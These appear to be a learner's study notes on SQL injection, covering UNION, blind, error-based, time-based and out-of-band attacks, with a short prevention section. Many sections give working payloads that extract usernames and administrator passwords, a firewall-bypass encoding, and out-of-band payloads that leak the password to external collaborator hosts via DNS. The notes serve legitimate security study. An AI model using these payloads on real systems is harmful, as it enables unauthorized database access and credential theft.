 
# SQL Injection (SQLI) Notes

## What is SQL Injection (SQLI)?
- A web security vulnerability that alters the main query sent from an application to the database.
- Allows attackers to access unauthorized data.
- Often occurs in the WHERE clause of SELECT queries.
- Can escalate to compromise the server, such as gaining administrator access.

## Basic SQLI
- Utilizes single quotes (`'`) to probe for anomalous responses.
- Boolean conditions employed: `OR 1=1`, `OR 1=2` (FALSE), `OR 'a' = 'b'` (making it TRUE).

## SQLI UNION Attacks
- Exploits applications vulnerable to SQLI to retrieve data from different tables using `UNION`.
- `UNION` combines the results of two or more SELECT queries.
- Requirements:
  - Both queries must return the same number of columns.
  - Data types must be compatible.
- Techniques for determining the number of columns:
  - Increment the `ORDER BY` clause until an error occurs (e.g., `ORDER BY 1--`, `ORDER BY 2--`).
  - Use `UNION SELECT` with varying numbers of NULLs.

## Oracle SQLI
- The `SELECT` query must include the `FROM` keyword.
- Utilizes the built-in table "dual" (e.g., `' UNION SELECT NULL FROM DUAL--`).
- Combines column values with a delimiter for queries returning single column values (e.g., `' UNION SELECT username || '~' || password FROM users--`).

## MySQL SQLI
- Comments require a space after `--`.
- The `#` character can also denote a comment.
- Identifying columns with useful data types:
  - Use `UNION SELECT` payloads to test for string-type columns.

## Blind SQLI
- Cookie TrackingID header in application uses SQL query to trace user data analytics.
- Example query of Cookie TrackingID:
  - `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`
- It can be exploited through blind SQLI vulnerability.
  - eg of exploit: `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
  - It forces a true condition and return password where first character is greater than m.
- Possible attacks:use Boolean to determine the true false of the criteria, eg: if the password length is more than x, starts with what alphabet.
- Then brute force base on response to get credentials.

## Error-Based SQLI
- Utilizes errors to extract or infer sensitive data.
- Effectiveness varies with Boolean conditions.
- Examples:
  - `' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`
  - `'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
- Can extract data through verbose SQL errors.
- Uses the `CAST()` function to convert data types and bypass conditional response prevention.
- Working examples that return data through error messages:
  - `' AND 1=CAST((SELECT username FROM users LIMIT 1)AS INT)—`
  - `' AND 1=CAST((SELECT password FROM users LIMIT 1)AS INT)—`

## Time-based SQLI
- Tests server response time to infer SQLI presence, especially useful if the database handles query errors robustly.
- Database-specific queries.
- Examples:
  - `'; IF (1=2) WAITFOR DELAY '0:0:10'—` (no time delay, true condition)
  - `'; IF (1=1) WAITFOR DELAY '0:0:10'--` (time delay, false condition)
- Working example:
  - `';SELECT+CASE+WHEN+(username='administrator' AND SUBSTRING(password,20,1)='§a§')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END FROM users—`

## OAST SQLI (Out-of-band Application Security Testing)
- A form of Blind SQLI that makes the server interact with a system under the attacker's control, often via DNS.
- Uses tools like Burp Collaborator for network interaction detection.
- Examples:
  - `'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'—` (DNS lookup on a specific domain)
  - Using UNION and XXE for DNS lookups on collaborator subdomains.
  - SQLI in OAST to leak data, with the leaked data being part of the subdomain name.
  - eg: `'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.upneavivflfs9z2xmz65vswzbqhi59ty.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual—`
  - Output: p4ssw0rd.upneavivflfs9z2xmz65vswzbqhi59ty.oastify.com

## Bypassing SQLI Filters
- Using the hackvector extension in Burp Suite to encode payloads for XML WAP bypass.
- Example: `<@dec_entities>1 UNION SELECT username || '~' || password FROM users;<@/dec_entities>`

## Checking Database Version
- MySQL: `SELECT @@version`
- Oracle: `SELECT * FROM v$version`
- PostgreSQL: `SELECT version()`

## SQLI Prevention:
- Illustrates how code is vulnerable to SQLI and how to prevent it by parameterizing the query.
- Highlights the importance of not allowing user input to interfere with the SQL query structure.
- Emphasizes best practices like input whitelisting, logical separation, and constant hard-coding.
- The following code is vulnerable to SQLI due to direct execution of user input by having it directly concatenated into the query
  - `String query = "SELECT * FROM products WHERE category = '"+ input + "'";`
  - `Statement statement = connection.createStatement();`
  - `ResultSet resultSet = statement.executeQuery(query);`


